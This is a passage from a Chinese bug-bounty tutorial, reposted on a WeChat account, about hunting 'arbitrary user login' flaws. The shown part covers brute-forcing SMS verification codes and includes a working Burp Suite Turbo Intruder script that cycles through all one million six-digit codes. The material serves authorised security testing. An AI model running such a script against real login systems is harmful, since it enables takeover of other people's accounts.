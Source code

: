 #  任意用户登录漏洞挖掘思路   
中铁13层打工人  黑客白帽子   2024-05-04 08:01  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJG3jJlPv0w6V8YUTyNSuV2udfyY3rWyR6V1UeHWuiab6T80I5ldZicZswCnrbicD4ibpaDMqCZ6UvFmhWLyTzptSA/640?wx_fmt=png&random=0.6636094571400317&random=0.6219011309810436&random=0.21191420540585404 "")  
  
**感谢师傅 · 关注我们**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJG3jJlPv0w6V8YUTyNSuV2udfyY3rWyR6V1UeHWuiab6T80I5ldZicZswCnrbicD4ibpaDMqCZ6UvFmhWLyTzptSA/640?wx_fmt=png&random=0.9829534454876507&random=0.2787622380037358&random=0.29583791053286834 "")  
  
  
由于，微信公众号推送机制改变，现在需要设置为星标才能收到推送消息。大家就动动发财小手设置一下呗！啾咪~~~  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJG3jJlPv0y50hQk1TiaBIAnSjzqkmZcPS4TWvohHfHPTVUBWM2mFxcqwhiaZKaQM6S7t11fuiajZ2zZqXD5hJJmA/640?wx_fmt=png "")  
  
```
文章来源: https://forum.butian.net/share/2553
文章作者：中铁13层打工人
如有侵权请您联系我们，我们会进行删除并致歉
```  
#   
  
任意用户登录漏洞以利用漏洞利用难度低、危害高、奖金高已经成为src/众测漏洞挖掘中的香饽饽，本文将分享一下众测/src中任意用户登录漏洞的挖掘思路。  
```
文章来源: https://forum.butian.net/share/2553
文章作者：中铁13层打工人
如有侵权请您联系我们，我们会进行删除并致歉
```  
# 任意用户登录漏洞挖掘思路  
## 前言  
  
任意用户登录漏洞以利用漏洞利用难度低、危害高、奖金高已经成为src/众测漏洞挖掘中的香饽饽，本文将分享一下众测/src中任意用户登录漏洞的挖掘思路。  
## 1.手机验证码问题导致的任意用户登录  
### 1.1 验证码爆破  
  
当登录流程使用手机验证码登录，没有图片验证码/图片验证码可重用/图片验证码简单可识别（可以使用captcha-killer-modified插件）且后端没有限制手机验证码验证错误次数时，可以尝试爆破手机验证码登录其他用户。  
  
4位验证码的爆破老生常谈不再赘述；随着厂商们服务器性能的提高，服务器的rps的上升也使得6位验证码的爆破越来越快，可以使用如下方法爆破（！！！需留意服务器的rps以及测试厂商的注意事项，rps低的老系统或者厂商禁止批量爆破的项目谨慎使用6位验证码的爆破！！！）：  
  
使用  
burpsuite  
的Turbo Intruder插件，编写如下脚本：  
```
import re

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=30,
                           pipeline=True
                           )

    for i in range(1000000):                            #生成六位验证码字典
        number = "{:06d}".format(i)
        engine.queue(target.req, number.rstrip())

def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status <404:
        '''res = re.findall('Msg":"(.*?)"',req.response)[0]            if len(res)>18:'''                              #六位数的验证码爆破结果展示列太多，可根据实际情况自行筛选展示        table.add(req)
```